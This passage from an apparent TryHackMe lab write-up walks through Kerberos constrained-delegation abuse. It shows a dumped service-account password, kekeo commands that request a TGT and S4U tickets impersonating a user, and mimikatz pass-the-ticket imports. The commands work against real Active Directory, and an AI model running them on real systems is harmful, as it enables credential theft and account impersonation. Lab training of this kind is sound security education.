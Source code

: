 As we can see, we got this:

```
Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: Password1@
```

Nice, we can now proceed with `kekeo`, we need to revert our token first in order for the attack to succeed:

```
token::revert

exit
```

Now, open up `kekeo`:

```
C:\Tools\kekeo\x64\kekeo.exe
```

Now, we need to generate the TGT using the credentials we found:

```
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
```

![](images/Pasted%20image%2020250527125734.png)

Nice, we can now request a S4U TGS on behalf of `t1_trevor.jones` to `http` and `wsman` service:

```
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc
```

Now that we have both, we need to start mimikatz again:

```
C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

Inside of mimikatz, we need to import the two TGS tickets, let's do:

```
privilege::debug

kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

We can now exit mimikatz and use `klist` to verify they were successfully imported:
